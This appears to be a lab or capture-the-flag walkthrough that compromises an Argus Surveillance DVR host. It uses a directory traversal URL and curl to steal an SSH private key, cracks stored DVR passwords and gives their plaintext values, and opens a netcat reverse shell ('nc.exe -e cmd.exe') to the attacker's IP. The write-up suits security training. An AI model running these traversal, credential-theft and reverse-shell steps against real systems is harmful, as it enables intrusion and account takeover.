Nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.186.179
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-19 16:26 IST
Warning: 192.168.186.179 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.186.179
Host is up (0.13s latency).
Not shown: 65435 closed tcp ports (reset), 87 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8080/tcp  open  http-proxy
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 28.06 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 22,135,139,445,5040,7680,8080,49664,49665,49666,49667,49668,49669 192.168.186.179
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-19 16:28 IST
Nmap scan report for 192.168.186.179
Host is up (0.16s latency).

PORT      STATE SERVICE       VERSION
22/tcp    open  ssh           Bitvise WinSSHD 8.48 (FlowSsh 8.48; protocol 2.0; non-commercial use)
| ssh-hostkey: 
|   3072 21:25:f0:53:b4:99:0f:34:de:2d:ca:bc:5d:fe:20:ce (RSA)
|_  384 e7:96:f3:6a:d8:92:07:5a:bf:37:06:86:0a:31:73:19 (ECDSA)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8080/tcp  open  http-proxy
|_http-generator: Actual Drawing 6.0 (http://www.pysoft.com) [PYSOFTWARE]
|_http-title: Argus Surveillance DVR
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 200 OK
|     Connection: Keep-Alive
|     Keep-Alive: timeout=15, max=4
|     Content-Type: text/html
|     Content-Length: 985
|     <HTML>
|     <HEAD>
|     <TITLE>
|     Argus Surveillance DVR
|     </TITLE>
|     <meta http-equiv="Content-Type" content="text/html; charset=ISO-8859-1">
|     <meta name="GENERATOR" content="Actual Drawing 6.0 (http://www.pysoft.com) [PYSOFTWARE]">
|     <frameset frameborder="no" border="0" rows="75,*,88">
|     <frame name="Top" frameborder="0" scrolling="auto" noresize src="CamerasTopFrame.html" marginwidth="0" marginheight="0"> 
|     <frame name="ActiveXFrame" frameborder="0" scrolling="auto" noresize src="ActiveXIFrame.html" marginwidth="0" marginheight="0">
|     <frame name="CamerasTable" frameborder="0" scrolling="auto" noresize src="CamerasBottomFrame.html" marginwidth="0" marginheight="0"> 
|     <noframes>
|     <p>This page uses frames, but your browser doesn't support them.</p>
|_    </noframes>
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.95%I=7%D=3/19%Time=69BBD6CC%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,451,"HTTP/1\.1\x20200\x20OK\r\nConnection:\x20Keep-Alive\r\nKe
SF:ep-Alive:\x20timeout=15,\x20max=4\r\nContent-Type:\x20text/html\r\nCont
SF:ent-Length:\x20985\r\n\r\n<HTML>\r\n<HEAD>\r\n<TITLE>\r\nArgus\x20Surve
SF:illance\x20DVR\r\n</TITLE>\r\n\r\n<meta\x20http-equiv=\"Content-Type\"\
SF:x20content=\"text/html;\x20charset=ISO-8859-1\">\r\n<meta\x20name=\"GEN
SF:ERATOR\"\x20content=\"Actual\x20Drawing\x206\.0\x20\(http://www\.pysoft
SF:\.com\)\x20\[PYSOFTWARE\]\">\r\n\r\n<frameset\x20frameborder=\"no\"\x20
SF:border=\"0\"\x20rows=\"75,\*,88\">\r\n\x20\x20<frame\x20name=\"Top\"\x2
SF:0frameborder=\"0\"\x20scrolling=\"auto\"\x20noresize\x20src=\"CamerasTo
SF:pFrame\.html\"\x20marginwidth=\"0\"\x20marginheight=\"0\">\x20\x20\r\n\
SF:x20\x20<frame\x20name=\"ActiveXFrame\"\x20frameborder=\"0\"\x20scrollin
SF:g=\"auto\"\x20noresize\x20src=\"ActiveXIFrame\.html\"\x20marginwidth=\"
SF:0\"\x20marginheight=\"0\">\r\n\x20\x20<frame\x20name=\"CamerasTable\"\x
SF:20frameborder=\"0\"\x20scrolling=\"auto\"\x20noresize\x20src=\"CamerasB
SF:ottomFrame\.html\"\x20marginwidth=\"0\"\x20marginheight=\"0\">\x20\x20\
SF:r\n\x20\x20<noframes>\r\n\x20\x20\x20\x20<p>This\x20page\x20uses\x20fra
SF:mes,\x20but\x20your\x20browser\x20doesn't\x20support\x20them\.</p>\r\n\
SF:x20\x20</noframes>\r")%r(HTTPOptions,451,"HTTP/1\.1\x20200\x20OK\r\nCon
SF:nection:\x20Keep-Alive\r\nKeep-Alive:\x20timeout=15,\x20max=4\r\nConten
SF:t-Type:\x20text/html\r\nContent-Length:\x20985\r\n\r\n<HTML>\r\n<HEAD>\
SF:r\n<TITLE>\r\nArgus\x20Surveillance\x20DVR\r\n</TITLE>\r\n\r\n<meta\x20
SF:http-equiv=\"Content-Type\"\x20content=\"text/html;\x20charset=ISO-8859
SF:-1\">\r\n<meta\x20name=\"GENERATOR\"\x20content=\"Actual\x20Drawing\x20
SF:6\.0\x20\(http://www\.pysoft\.com\)\x20\[PYSOFTWARE\]\">\r\n\r\n<frames
SF:et\x20frameborder=\"no\"\x20border=\"0\"\x20rows=\"75,\*,88\">\r\n\x20\
SF:x20<frame\x20name=\"Top\"\x20frameborder=\"0\"\x20scrolling=\"auto\"\x2
SF:0noresize\x20src=\"CamerasTopFrame\.html\"\x20marginwidth=\"0\"\x20marg
SF:inheight=\"0\">\x20\x20\r\n\x20\x20<frame\x20name=\"ActiveXFrame\"\x20f
SF:rameborder=\"0\"\x20scrolling=\"auto\"\x20noresize\x20src=\"ActiveXIFra
SF:me\.html\"\x20marginwidth=\"0\"\x20marginheight=\"0\">\r\n\x20\x20<fram
SF:e\x20name=\"CamerasTable\"\x20frameborder=\"0\"\x20scrolling=\"auto\"\x
SF:20noresize\x20src=\"CamerasBottomFrame\.html\"\x20marginwidth=\"0\"\x20
SF:marginheight=\"0\">\x20\x20\r\n\x20\x20<noframes>\r\n\x20\x20\x20\x20<p
SF:>This\x20page\x20uses\x20frames,\x20but\x20your\x20browser\x20doesn't\x
SF:20support\x20them\.</p>\r\n\x20\x20</noframes>\r");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-03-19T11:00:54
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 190.57 seconds
```

Visiting web server on port 8080.



Clicking on Users, we discovered usernames.



We encounter what appears to be an unsecured surveillance dashboard and console. The whole presentation looks dated, so I immediately plug Argus Surveillance into searchsploit.



After researching vulnerabilities associated with Argus Surveillance DVR version 4.0, I found four known vulnerabilities listed on ExploitDB:

- **Unquoted Service Path** — This can be exploited for privilege escalation.
- **Weak Password Encryption** — This allows attackers to decrypt user passwords stored on the Argus Surveillance DVR web interface.
- **Privilege Escalation** — Specifically through Service DLL Hijacking.
- **Directory Traversal** — This vulnerability can be used to read local files on the target server.

## Initial Access:

Out of the four exploits mentioned, the one I could test via the web service without requiring any credentials was the **Directory Traversal** vulnerability.

I immediately tested the proof-of-concept (PoC) by attempting to read the `hosts` file on the target server. The result confirmed that local file reading was successful.

https://www.exploit-db.com/exploits/45296





We successfully print the contents of `system.ini`



Now we can start trying to disclose more sensitive data

### Disclosure of SSH Private Key

Recall that we previously discovered via _nmap_ that the target is running SSH.

We also previously discovered some potential usernames: _Administrator_ and _Viewer_

Lets see if we can disclose a private key via the dir traversal vulnerability

file location of a private key is typically **C:\Users\<username>\. ssh\id_rsa**

In our traversal URL, lets replace `%2FWindows%2Fsystem.ini` with `%2FUsers%2FAdministrator%2F.ssh%2Fid_rsa` and try to disclose the private key of **Administrator**

```URL
http://192.168.186.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2FAdministrator%2F.ssh%2Fid_rsa&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD=%22
```
But, no luck.



Tried the same, but instead with username "Viewer".

```URL
http://192.168.186.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2FViewer%2F.ssh%2Fid_rsa&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD=%22
```

Success, we got the ssh key for user "Viewer".



I saved the output of the file read as `id_rsa`, then set the permissions of the SSH private key to `600` (read and write only for the owner).



With that done, I used the private key to access the server via SSH as the **Viewer** user.

```sh
ssh -i id_rsa viewer@192.168.186.179
```



It was giving me error. So pro tip for such scenario. 

```sh
curl -X GET "http://192.168.186.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2FViewer%2F.ssh%2Fid_rsa&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD=%22" | tee id_rsa
```





```sh
ssh -i id_rsa viewer@192.168.186.179
```

We got the shell.



Captured local flag.



## Privilege Escalation: Weak Password Encryption DVR 4.0

For the privilege escalation phase, as mentioned earlier, there are three relevant exploits worth trying:

- **Unquoted Service Path**
- **Privilege Escalation (Service DLL Hijacking)**
- **Weak Password Encryption**

I started with the **Unquoted Service Path** exploit. I checked the Viewer user’s write permissions on the Argus Surveillance directory and its parent directories. The result showed that the user does **not have write permissions**, making this exploit path unusable in this case.



The second option was **Service DLL Hijacking**, but this exploit also requires the user to have write permissions. Unfortunately, the Viewer user does **not** have the necessary permissions to perform this attack either.



That left me with the final exploit listed on ExploitDB: **Weak Password Encryption**.

https://www.exploit-db.com/exploits/50130

An exploit for weak password encryption notes config file location where encrypted passwords are stored `C:\ProgramData\PY_Software\Argus Surveillance DVR\DVRParams.ini`


We navigate to the config file that stores the encrypted passwords.





And found two encrypted passwords for Administrator.
`ECB453D16069F641E03BD9BD956BFE36BD8F3CD9D9A8`

`5E534D7B6069F641E03BD9BD956BC875EB603CD9D8E1BD8FAAFE`






We save the python exploit locally and modify it to include our discovered hash.



The 1st cracked password is`14WatchD0g` , however the last character is unknown

(note: The exploit does not crack special characters so it is safe to assume that the “Unknown” last character is a special character)


The 2nd cracked password is`ImWatchingY0u`


When we tried to switch to administrator using 2nd password, we failed. So we must discover the last unknown character on 1st password.



At least we can see from this error message the the problem appears to be the password, not the set up. Let’s try the other one. What are all the special characters?

`!@#$%^&*()?_-+= Is that all of them?`

By exhaustion we discover that the special character is a $ `14WatchD0g$`

And it worked.



That looks more like what I want to see. Now we can pick a better program to run. I don’t see any reason to be fancy, I’m going to put netcat on to the box, set up a listener, and catch a reverse shell.

Python server for the file:
**All the below operations should be done through viewer user only.**



set up a Netcat lister on Kali `nc -nvlp 443`

Impersonate **Administrator**

```cmd
runas /user:administrator "nc.exe -e cmd.exe 192.168.45.157 443"
```
![[DVR29.png]]






